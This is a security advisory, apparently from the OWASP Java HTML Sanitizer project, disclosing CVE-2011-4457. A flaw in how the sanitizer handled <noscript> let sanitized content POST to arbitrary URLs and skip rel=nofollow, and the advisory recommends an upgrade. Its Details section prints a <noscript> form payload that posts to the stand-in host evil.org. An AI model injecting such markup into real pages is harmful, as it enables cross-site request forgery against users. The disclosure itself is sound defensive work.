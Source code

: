 #summary CVE-2011-4457
#labels Security

#CVE-2011-4457

A vulnerability in the
[OWASP HTML Sanitizer](https://github.com/OWASP/java-html-sanitizer)

allows redirecting or POSTing to an arbitrary URL when the user
interacts with sanitized content and when JavaScript is disabled.

It also allows inclusion of links without
"[rel=nofollow](http://microformats.org/wiki/rel-nofollow)" when
JavaScript is disabled.

Crawlers that respect `nofollow` and which look for links inside
`<noscript>...</noscript>` could conclude a containing page has
link-spam.

Due to the constrained circumstances and the fact that it does not
allow exfiltration of data protected by the same-origin policy it is
considered low risk.  For policies that allow external links, the
escalation of privilege only includes POSTing, possibly including
upload of files chosen by the user.

We recommend upgrading to release 88 or later available
which does not break API compatibility with the previous release.

The project CHANGE log is available at
http://owasp-java-html-sanitizer.googlecode.com/svn/trunk/CHANGE_LOG.html

## Details 

The attack hinges on the way `<noscript>` was parsed and rendered.

```Java
<noscript>
  <form method=POST action=http://evil.org/>
    <input name=x value=y>
    <input type=submit>
  </form>
</noscript>
```

will POST `x=y` to `http://evil.org/` when the submit button is
pressed and when the user has javascript turned off as when running
the NoScript extension.

The POST will carry user credentials so a vulnerable page can be used
to initiate XSRF against vulnerable servers.
